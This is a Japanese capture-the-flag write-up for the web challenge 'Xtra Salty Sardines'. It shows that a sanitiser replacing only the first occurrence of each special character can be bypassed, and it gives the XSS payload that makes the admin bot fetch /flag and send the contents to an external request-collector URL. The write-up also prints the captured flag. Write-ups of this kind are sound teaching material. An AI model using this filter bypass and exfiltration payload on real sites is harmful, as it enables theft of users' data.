

# Xtra Salty Sardines:Web:70pts
Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote [a site with an extremely suggestive acronym](https://xtra-salty-sardines.web.actf.co/)?  

[Source](index.js), [Admin Bot](https://admin-bot.actf.co/xtra-salty-sardines)  

# Solution
アクセスすると謎のイワシとフォームが出てくる。  
Xtra Salty Sardines  
[site.png](site/site.png)  
問題名やAdmin Botがあることから、XSS問のようだ。  
`<script>alert('Satoki');</script>`をPOSTするとおかしな表示となった。  
  
HTMLは以下のようになっていた。  
```html
~~~
<body>
    <h1>Your sardine's name is &lt;script&gt;alert(&apos;Satoki');</script>!</h1>
    <p>Unfortunately, your flag is in another sardine.</p>
    <p>Want more? <a href="/">Go back</a>.</p>
</body>
~~~
```
サニタイズがおかしいことがわかる。  
配布されたソースのサニタイズ部分を見てみる。  
```JavaScript
~~~
    // no pesky chars allowed
    const name = req.body.name
        .replace("&", "&amp;")
        .replace('"', "&quot;")
        .replace("'", "&apos;")
        .replace("<", "&lt;")
        .replace(">", "&gt;");
~~~
```
`replace`なので、一度しか置換されない。  
`&"'<><script>alert('Satoki');</script>`で無事にalertされた。  
フラグはソースより`/flag`にあることがわかるため、XSSペイロードを投稿しAdmin BotにGETで取得させればよい。  
以下のXSSペイロード投稿し、生成されたURLをAdmin Botに送信し、[RequestBin.com](https://requestbin.com/)でリクエストを待ち受ける。  
```
&"'<><script>fetch("https://xtra-salty-sardines.web.actf.co/flag").then(res => res.text()).then(text => fetch("https://xxxxxxxxxxxxx.x.pipedream.net?s=" + text));</script>
```
`/?s=actf{those_sardines_are_yummy_yummy_in_my_tummy}`なるflagを含むリクエストが到達した。

## actf{those_sardines_are_yummy_yummy_in_my_tummy}